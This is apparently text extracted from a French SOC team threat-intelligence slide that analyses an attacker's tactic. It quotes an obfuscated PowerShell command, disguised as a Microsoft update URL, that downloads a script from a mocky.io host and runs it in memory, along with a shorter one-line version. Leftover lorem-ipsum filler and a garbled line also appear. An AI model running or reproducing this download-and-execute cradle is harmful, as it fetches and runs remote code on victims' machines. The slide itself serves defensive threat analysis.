

02
# ANALYSE TACTIQUE – phase 2
powershell $update='windows’;
$url='https://www.catalog.update.microsoft.com/scopedviewinline.aspx?updateid=a4b6625c-226e-4dbc-baec-1dbd854b8015’;
$command='run’;
$version='v3’;
$updateid='3b44f33d-b6e5-4ec6-b120-99b6ac52f74b’;
$scheme='http://’;
$url=$scheme+$command+'.mocky[.]io/'+$version+'/'+$updateid;
$r=(new-object system.net.webclient).downloadstring($url);
powershell $r;&exit
Lrenseignement sur les cybermenacesorem Ipsum Dolor Sit
Lorem Ipsum Dolor Sit
Lorem Ipsum Dolor Sit
powershell  http://run.mocky.io/v3/3b44f33d-b6e5-4ec6-b120-99b6ac52f74b; &exit

Omniprésent dans l’environnements Windows
Exécution en mémoire
09;06.2023
SOC Team@oodrive
26